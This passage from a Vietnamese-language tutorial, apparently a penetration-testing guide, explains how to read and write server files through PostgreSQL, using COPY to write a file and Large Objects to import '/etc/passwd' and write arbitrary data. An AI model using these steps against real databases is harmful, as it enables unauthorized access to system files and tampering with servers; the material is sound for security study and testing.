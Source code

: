 2. **Chèn dữ liệu vào bảng**:
   ```sql
   INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
   ```

3. **Ghi vào tệp**:
   ```sql
   COPY tmp TO '/tmp/proof.txt';
   ```

4. **Xóa bảng tạm**:
   ```sql
   DROP TABLE tmp;
   ```

Sau khi thực hiện, tệp `/tmp/proof.txt` sẽ chứa dữ liệu đã được ghi.

##### **Quyền truy cập:**

Để sử dụng `COPY` để đọc và ghi tệp, người dùng phải có quyền **pg_write_server_files** hoặc là **superuser** trong PostgreSQL. Bạn có thể kiểm tra quyền của người dùng như sau:
```sql
SELECT current_setting('is_superuser');
```

---

#### **Phương pháp 2: Sử dụng Large Objects**

PostgreSQL hỗ trợ cơ chế **Large Objects**, cho phép lưu trữ các đối tượng lớn (ví dụ, tệp) trong cơ sở dữ liệu.

##### **Đọc tệp với Large Objects:**

1. **Nhập tệp vào PostgreSQL**:
   ```sql
   SELECT lo_import('/etc/passwd');
   ```

2. **Lấy ID đối tượng lớn** (VD: `16513`), sau đó truy vấn dữ liệu của đối tượng này:
   ```sql
   SELECT lo_get(16513);
   ```

3. **Chuyển đổi dữ liệu từ hexstring**:
   Sau khi lấy dữ liệu hexstring, bạn có thể chuyển đổi nó về dạng văn bản sử dụng công cụ `xxd`:
   ```bash
   echo <hexstring> | xxd -r -p
   ```

##### **Ghi tệp với Large Objects:**

1. **Tạo đối tượng lớn**:
   ```sql
   SELECT lo_create(31337);
   ```

2. **Chèn dữ liệu vào đối tượng lớn**:
   Dữ liệu phải được mã hóa dưới dạng hex và chèn vào đối tượng lớn theo từng trang 2KB:
   ```sql
   INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('<hexstring>', 'HEX'));
   ```
